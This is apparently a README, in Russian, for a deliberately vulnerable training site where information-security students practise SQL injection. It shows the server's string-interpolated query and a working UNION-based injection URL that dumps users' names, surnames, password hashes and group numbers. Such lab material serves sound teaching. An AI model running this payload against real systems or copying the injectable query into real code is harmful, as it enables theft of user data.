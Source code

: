 # Тестовая площадка для изучения студентами SQL инъекций v2

Намеренно сделана с нарушениями всех возможных паттернов программирования, т.к., как ясно из названия, она должна легко взламываться студентами на курсе по инфобезу. Взломать эту штуку можно, вставив инъекцию на место имени пользователя при просмотре чужого профиля, т.к. страница пользователя работает так же, как список всех пользователей — в цикле выводит все результаты запроса из БД, с той лишь разницей, что запрос фильтруется по никнейму пользователя, переданному в адресной строке.

Запрос к БД на сервере:

```sql
SELECT nickname, status FROM users WHERE nickname = '{nickname}'
```

Инъекция в URL адресе:

http://{hostname}/users/' OR 1=1 UNION SELECT nickname, name from users UNION SELECT nickname, surname from users UNION SELECT nickname, pwd_hash from users UNION SELECT nickname, group_num from users--

Так выглядит запрос с SQL инъекцией:

```sql
SELECT nickname, status FROM users WHERE nickname = '' OR 1=1 UNION SELECT nickname, name from users UNION SELECT nickname, surname from users UNION SELECT nickname, pwd_hash from users UNION SELECT nickname, group_num from users--'
```


## Как запустить?

```bash
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt
uvicorn app.main:app --host 0.0.0.0 --port 8000
```
